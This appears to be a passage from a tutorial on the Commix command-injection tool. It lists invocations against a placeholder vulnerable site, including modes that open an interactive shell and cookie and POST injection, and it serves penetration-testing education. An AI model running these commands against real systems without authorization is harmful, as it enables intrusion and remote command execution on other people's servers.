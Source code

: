 ```bash
python commix.py -u "http://vulnerable-site.com/search.php?cmd=query"
```

### Detection and Exploitation Modes

Commix supports different modes for detecting and exploiting command injection vulnerabilities:

#### Classic Mode (Default)

Attempts standard command injection techniques:

```bash
python commix.py -u "http://vulnerable-site.com/search.php?cmd=query"
```

#### Shell Mode

Provides an interactive pseudo-terminal when a vulnerability is found:

```bash
python commix.py -u "http://vulnerable-site.com/search.php?cmd=query" --shell
```

#### Semi-Blind Mode

For cases where command output is not directly visible:

```bash
python commix.py -u "http://vulnerable-site.com/search.php?cmd=query" --technique=semiblind
```

#### Time-Based Blind Mode

Relies on time delays to confirm command execution:

```bash
python commix.py -u "http://vulnerable-site.com/search.php?cmd=query" --technique=time-based
```

### Working with Different HTTP Methods

Commix supports various HTTP methods for testing parameters:

#### GET Requests

```bash
python commix.py -u "http://vulnerable-site.com/search.php?cmd=query"
```

#### POST Requests

```bash
python commix.py -u "http://vulnerable-site.com/search.php" --data="cmd=query"
```

#### Cookie Injection

```bash
python commix.py -u "http://vulnerable-site.com/search.php" --cookie="PHPSESSID=1234; cmd=query"
```
